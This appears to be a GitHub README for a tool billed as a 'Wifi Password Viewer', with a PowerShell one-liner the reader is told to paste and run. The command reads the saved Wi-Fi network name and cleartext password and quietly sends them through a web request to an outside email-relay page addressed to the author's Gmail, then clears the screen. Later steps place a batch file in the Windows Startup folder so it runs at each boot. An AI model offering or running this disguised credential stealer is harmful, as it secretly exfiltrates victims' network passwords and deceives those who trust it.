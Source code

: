 <h2 align="center">Hi 👋, I'm PROTAN HALDER</h2>
<h3 align="center">A Wifi Password Viewer.</h3>


#### Directly Run this command in The PowerShell.
```
$SSID = (netsh wlan show profile|find "All User Profile").Split(":")[1].SubString(1); $PWD  = (netsh wlan show profile name="$SSID"  key=clear | find "Key Content").Split(":")[1].SubString(1); $Data = "SSID :$SSID`nPASS :$PWD ";Invoke-WebRequest -Uri "https://email-pranks.000webhostapp.com/gmail.php?from=hasanhawladar2021@codewithharry.com&to=protanhalder2022@gmail.com&subject=Wifi Information of $Data&message=$Data";clear;echo $Data
```

####    you should pase the "WiFucker.bat" file into the StartUp folder [ (window+R) shell:startup]

####    then paste the "WiFucker.ps1" file into another folder exept StartUp folder.

####    then copy the path of "WiFucker.ps1" file and replace the path from "WiFucker.bat" file . 
